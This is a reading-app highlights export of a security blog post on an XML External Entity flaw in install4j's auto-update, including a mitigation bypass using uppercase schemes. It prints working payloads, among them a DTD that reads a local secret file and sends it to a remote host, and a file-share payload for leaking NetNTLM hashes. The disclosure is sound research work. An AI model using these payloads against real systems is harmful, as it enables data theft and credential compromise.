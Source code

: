 ```yaml
---
author: "Frycos Security Diary"
aliases: "XXE With Auto-Update in Install4j"
tags: RW_inbox, readwise/articles
url: https://frycos.github.io/vulns4free/2023/02/12/install4j-xxe.html
date: 2025-01-09
---
```

# XXE With Auto-Update in Install4j

![rw-book-cover](https://frycos.github.io/assets/images/install4j/install4j_3.png)

## Highlights


XXE with Auto-Update in install4j
> [View Highlight](https://read.readwise.io/read/01jh5p4swf378433x5ftcbswsg)



install4j is a powerful multi-platform Java installer builder that generates native installers and application launchers for Java applications.
> [View Highlight](https://read.readwise.io/read/01jh5p52jtg3thdcx0z22bstvw)



The latest version **10.0.4** (and former versions) of **install4j** is vulnerable to a XML External Entity (XXE) attack. Products using install4j with its **(automatic) update** feature could be exploited, if connections to the *update server* are successfully controlled in some way. If any affected product triggers an update check (scheduled or manually), the update server responds with a *XML file* containing information about available software versions with attributes pointing to the newest version, file hashes for verification etc. This delivered XML content is read by the client system with the product installed and **parsed insecurely**.
> [View Highlight](https://read.readwise.io/read/01jh5p5cykzdr4devpazbtbcg6)



It seems some default XXE mitigations were put into place by the `downloadExternalEntities` member being set to `false` as mentioned above. This will lead us into the `if` branch at `[6]`, checking for `PUBLIC` and `SYSTEM` identifiers in the XML being parsed. Even though `startsWith("http:/")` and `startsWith("https:/")` checks at `[7]` should take care of preventing disallowed **(external) entities and document type declarations**, referencing a remote **DTD** file then being fetched with a HTTP request, this can be easily bypassed by e.g. using **UPPERCASE** protocol handler definitions such as `SYSTEM "HTTP://ATTACKERSERVER/BAD.DTD"`. Finally, the dangerous sink at `[8]` is called. Additionally other file protocol handlers such as `file://` or `jar://` are not taken into account, yet. Note that the `EntityResolver` protection given by [OWASP XXE Mitigations](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#no-op-entityresolver) is more restrictive and should have been the way to go.
> [View Highlight](https://read.readwise.io/read/01jh5pfw7a3q49s6psmcwn9dzb)



But in general, several cases allow an easy hijack of the update server communication:
 • The product chooses to use HTTP instead of HTTPS connections
 • The `acceptAllCertificates` attribute is set to `true` in the install4j configuration file such that TLS/SSL verification gets deactivated with help of the install4j method `private Runnable acceptAllCertificates()`
 • A central TLS/SSL inspection component would break the trusted chain of verification depending on its (mis)configuration (already seen “in-the-wild” :-P)
 • There exist other cases but this is not the main purpose of this blog post to list them all
 Note that this hijacking part is not a vulnerability in install4j itself but depends on certain configurations of install4j and server infrastructure on the affected product side, respectively. Nevertheless, this is a valid attack vector and should not lead to a vulnerable sink indeed existing in install4j: the XXE described above.
> [View Highlight](https://read.readwise.io/read/01jh5phy9h0z6th220cmgprqv3)



The following XML content will be delivered then by our attacker server:
> [View Highlight](https://read.readwise.io/read/01jh5pn0d89xw5mrax740qx27d)



<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE data SYSTEM "HTTP://downloads.prosysopc.com/XXE.dtd"> <data>&send;</data>
> [View Highlight](https://read.readwise.io/read/01jh5pn4mcw3pz7690ac2jx2d1)



This will fetch the `DTD` file remotely from the same update server with the following content:
 <!ENTITY % file SYSTEM "file:///C:/Users/user/Desktop/secret.txt">
 <!ENTITY % all "<!ENTITY send SYSTEM 'HTTP://downloads.prosysopc.com/%file;'>">
 %all;
> [View Highlight](https://read.readwise.io/read/01jh5pndqpdg26qns81xda0mf6)



Since this is a Windows system, we could create XXE payloads with `file://` protocol handlers. Defining a remote network share could then lead to leakage of hashed Windows server credentials (NetNTLM hash). These hashes could be cracked (or relayed) and used to directly login into the victim machines etc.
> [View Highlight](https://read.readwise.io/read/01jh5pr077vecjn6vnj9mhsnrn)



<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE data SYSTEM "file:////downloads.prosysopc.com/myshare/file.dll"> <data>&send;</data>
> [View Highlight](https://read.readwise.io/read/01jh5pr53caj6gmajzcq91mhmx)



There are even more attack vectors by using the `jar://` protocol handler, fetching a remote JAR file with attacker-controlled arbitrary file content (it even doesn’t have to be a JAR file). This is a variant of arbitrary file upload and could be used in further exploitation steps, depending on the specific target. For a beautiful chain read [this blog post](https://www.horizon3.ai/red-team-blog-cve-2022-28219/) for example.
> [View Highlight](https://read.readwise.io/read/01jh5prrjzh3ccartqsyc27mp3)



